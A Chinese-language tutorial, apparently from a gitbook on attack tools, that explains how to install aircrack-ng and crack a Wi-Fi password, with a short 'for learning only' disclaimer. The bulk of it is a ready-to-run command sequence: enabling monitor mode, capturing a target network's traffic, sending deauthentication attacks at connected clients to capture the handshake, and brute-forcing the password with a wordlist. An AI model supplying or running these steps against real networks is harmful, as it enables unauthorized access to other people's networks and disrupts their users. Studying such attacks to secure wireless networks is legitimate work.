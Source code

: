 # 1. WIFI破解

> 请勿用于恶意攻击，仅限学习使用，否则后果自负

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi03.png)

### WIFI破解原理

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi04.png)

# 1.1 wifi破解工具下载和安装

## Aircrack-ng

### 下载：

```
http://www.aircrack-ng.org/ 
http://www.aircrack-ng.org/downloads.html
wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz

```

### 安装：

如果是linux-Ubuntu

```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
tar zxvf aircrack-ng-1.2-rc2.tar.gz
cd aircrack-ng-1.2-rc2

```

```
make

sudo make install

```

### **kali-linux** 操作系统

**官方网站：**

[http://www.kali.org](http://www.kali.org/)

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A840-wifi01.png)

**中文论坛：**

[http://www.kali.org.cn](http://www.kali.org.cn/)

# 1.2 wifi 破解过程

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop

```

```
airmon-ng check kill

```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig

```

或者

```
iwconfig

```

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0

```

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng wlan0mon

```

**（5）. 专门监听目标wifi，抓取目标的数据包（始终运行）**

```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon

```

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

```
aireplay-ng -0 1 –a 目标wifi的mac -c 客户端的mac wlan0mon

```

攻击成功,airodump-ng捕获handshake ,此时可以ctrl+c终止airodump-ng抓包。

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi05.png)

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng -w 密码字典 捕获的cap文件

```

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```